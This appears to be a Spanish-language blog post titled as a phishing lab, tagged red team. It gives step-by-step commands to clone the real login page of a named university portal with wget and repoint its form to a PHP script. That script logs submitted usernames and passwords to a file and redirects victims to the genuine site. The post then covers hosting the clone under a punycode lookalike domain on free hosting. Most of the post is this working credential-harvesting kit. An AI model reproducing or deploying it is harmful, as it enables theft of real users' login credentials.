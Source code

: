 ```yaml
---
title: Laboratorio de pishing
author: FredyRosero
tags: 
 - laboratorio
 - pishing
 - redteam
date: 2022-05-20'
layout: post
categories: [laboratorios]
---
```

Abstract.
 <!--more-->

## Prerrequisitos
```bash
sudo apt install
```

## Método manual
Esto es manual
### WGet
-E
--adjust-extension
> If a file of type application/xhtml+xml or text/html is downloaded and the URL does not end with the regexp \.[Hh][Tt][Mm][Ll]?, this option will cause the suffix .html to be appended to the local filename.

-H
--span-hosts
> Enable spanning across hosts when doing recursive retrieving. 

-k
--convert-links
> After the download is complete, convert the links in the document to make them suitable for local  viewing.

-K
--backup-converted
> When converting a file, back up the original version with a .orig suffix. Affects the behavior of -N. 
-p
--page-requisites
> This option causes Wget to download all the files that are necessary to properly display a given HTML page.

-nH
--no-host-directories
> Disable generation of host-prefixed directories.

#### Descarga de página
```bash
URL=https://micampus.unal.edu.co/
USER_AGENT='"Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/60.0"'
WEB_PATH=$(pwd)/web
wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL --user-agent $USER_AGENT --directory-prefix=$WEB_PATH
```
### Index.html
Vamos a copiar el archivo `index.html`
```bash
cd web
cp index.html index.html.bkp
vim index.html
# :q
```

Luego lo formateamos con [tidy](https://www.html-tidy.org/)
```bash
tidy -indent --indent-spaces 2 --quiet --tidy-mark no index.html.bkp > index.html
```

Ahora buscamos el formulario de login y cambiamos su atributo [`action`](https://developer.mozilla.org/es/docs/Web/HTML/Element/form#attr-action) a `pish.hp` el cual será la URI del programa que procesará la información enviada por medio del formulario.
```bash
vim index.html
# q/i action=
# vi"c
# phish.php
# :w
```

Tambien identificamos el atributo `name` de los inputs del mismo formulario
```bash
# q/i name=
# :q
```

Ahora creamos el archivo `phish.php` con el comando `vim phish.php`, pegamos y el siguiente contenido y salimos con `:wq`
```php
<?php
// Extraer Form data
$form_data = file_get_contents('php://input'); // Guardar cuerpo de la petición en un string
parse_str($form_data, $parsed); // Parsea un string a variables

// Construimos el mensaje a guardar
$log = "=============+=============\n";
$log .= "Username:	" . $parsed['username'] . "\n";
$log .= "Password:	" . $parsed['password'] . "\n";
$log .= "===========================\n\n\n";

// Escribimos en el archivo `log`
$logpath = "log";
$file = fopen($logpath, 'a'); // la opción a (de append) permite abrir para agregar
fwrite($file, $log);
fclose($file);

// redirection link will be set automatically
$URL = "https://micampus.unal.edu.co/";
header("Location: ${URL}");
?>
```

Lanzamos el servidor web standalond de php con
```bash
php -S 0.0.0.0:8081
```
### Servidor web
1. Solicitamos un hosting grauito en 000webhost.com
1. Definimos el dominio p. ej. *i❤️uqbar.ml*
1. Traducimos la url a punycode en [punycoder](https://www.punycoder.com/) p. ej. *xn--iuqbar-i50d.ml*
1. Creamos un dominio en freenom.com y asignamos la redirección o registro DNS p. ej. *http://test-uqbar.000webhostapp.com/*. Esto implica verificar el correo



